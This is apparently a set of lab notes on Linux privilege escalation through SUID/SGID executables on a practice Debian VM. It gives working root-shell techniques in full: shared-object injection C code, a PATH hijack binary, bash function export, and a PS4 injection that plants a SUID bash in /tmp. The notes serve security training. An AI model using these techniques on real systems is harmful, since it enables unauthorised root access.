 # SUID / SGID Executables

Find all the SUID/SGID executables on the Debian VM:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

```shell-session
...
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
...
```

### Known Exploits example

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search.

we then find a cve-2016-1531 which works!

### Shared Object Injection

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

`/usr/local/bin/suid-so`

Run strace on the file and search the output for open/access calls and for "no such file" errors:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:

`mkdir /home/user/.config`

Example shared object code libcalc.c:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

`/usr/local/bin/suid-so`

### Environment Variables

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

`/usr/local/bin/suid-env`

Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code service.c into an executable called service:

```c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

&#x20;This code simply spawns a Bash shell:

`gcc -o service /home/user/tools/suid/service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`

### Abusing Shell Features (#1)

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

`strings /usr/local/bin/suid-env2`

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

`/bin/bash --version`

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

`function /usr/sbin/service { /bin/bash -p; }`\
`export -f /usr/sbin/service`

Run the suid-env2 executable to gain a root shell:

`/usr/local/bin/suid-env2`

### Abusing Shell Features (#2)

again with /usr/local/bin/suid-env2:

Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.\


Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

### systemctl suid esclation

{% embed url="https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation" %}
